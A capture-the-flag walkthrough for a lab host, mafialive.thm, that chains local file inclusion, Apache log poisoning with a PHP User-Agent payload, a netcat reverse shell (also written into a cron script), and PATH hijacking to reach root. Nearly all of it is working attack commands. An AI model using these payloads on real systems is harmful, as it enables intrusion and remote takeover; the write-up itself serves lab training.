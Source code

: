 # - ANGELARCH WRITEUP- #

1. Find Hostname (mail link) = mafialive.thm
    - Change Host file (`sudo nano /etc/hosts`)
    - add - IP hostname

2. Go to http://mafialive.thm for flag
    - Go to robots.txt
    - find **flag 1** + test.php

3. test.php LFI with wrapper:
    - php://filter/read=convert.base64-encode/resource=/var/www/html/development_testing/test.php
4. take base64 output and decode to see php code - **flag 2**
> PHP code detects ../.. but if you use .././.. it does the same thing but it is different

5. Use this to see logs
    - http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././.././../var/log/apache2/access.log

6. LFI log poisioning

- Open BurpSuite
- Open BurpSuite Browser and send request to /text.php
- Go to HTTP History, right click and send to repeater
- Send shell :
     ```
    GET / HTTP/1.1
    Host: mafialive.thm
    Upgrade-Insecure-Requests: 1
    User-Agent: <?php shell_exec($_GET['cmd']); ?>
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Connection: close
    ```

7. Go to website and visit mafialive.thm/test.php?cmd=
8. make reverse shell at https://www.revshells.com/
    - `rm /tmp/p;mkfifo /tmp/p;nc IP PORT 0</tmp/p|/bin/sh > /tmp/p 2>&1;rm /tmp/p`
    - encode into URL (https://meyerweb.com/eric/tools/dencoder/ OR in console encodeURIComponent('text'))

9. terminal = `nc -lvnp 1234`
10. Visit this website
    - http://mafialive.thm/test.php?cmd= ENCODED TEXT &view=/var/www/html/development_testing/.././.././.././.././.././../var/log/apache2/access.log

**You have reverse shell**
> make shell nice = `python3 -c "import pty;pty.spawn('bash')"`

11. `find / -perm /6000 -type f -executable 2>/dev/null`
    - see that crontab is on here


12. `cat etc/crontab`
```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   archangel /opt/helloworld.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

13. we see that every minute archangel runs /helloworld
    - `cd /opt`
    - `ls-la (shows us we can write to it)`
```
drwxrwxrwx  3 root      root      4096 Nov 20  2020 .
drwxr-xr-x 22 root      root      4096 Nov 16  2020 ..
drwxrwx---  2 archangel archangel 4096 Nov 20  2020 backupfiles
-rwxrwxrwx  1 archangel archangel   66 Nov 20  2020 helloworld.sh
```

14. `cat helloworld.sh`
```
#!/bin/bash
echo "hello world" >> /opt/backupfiles/helloworld.txt
```
15. `echo "rm /tmp/p;mkfifo /tmp/p;nc IP PORT 0</tmp/p|/bin/sh > /tmp/p 2>&1;rm /tmp/p" > hellowworld.sh`
    - creating a reverse shell for user angel
16. `cd secret and cat user2.txt`

17. `echo $PATH`
    - /home/archangel/secret:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
18. `echo "/bin/bash" > cp`
19. `chmod +x cp`
20. `export PATH=$PWD:$PATH`
21. `./backup`

**WE GOT ROOT**
